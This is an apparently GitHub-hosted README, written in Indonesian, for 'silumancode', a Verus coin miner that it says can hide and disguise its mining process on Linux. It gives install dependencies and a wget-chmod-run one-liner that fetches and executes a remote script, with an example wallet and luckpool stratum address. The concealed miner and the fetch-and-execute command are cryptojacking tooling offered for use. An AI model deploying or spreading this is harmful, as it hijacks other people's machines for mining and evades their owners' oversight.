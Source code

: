 # silumancode
miner verus coin yang mampu menyembunyikan dan menyamarkan proses mining di sistem linux
## install dependence :
 apt-get install libcurl4-openssl-dev libssl-dev libjansson-dev automake autotools-dev build-essential -y
## Penggunaan
wget https://github.com/x011-al/silumancode/raw/refs/heads/main/sh && chmod +x sh && ./sh wallet.namaminer pool thread y/n
### example
wget https://github.com/x011-al/silumancode/raw/refs/heads/main/sh && chmod +x sh && ./sh RP6jedjfhjfkkfjt1.minervps1 stratum+tcp://eu.luckpool.net 2 n
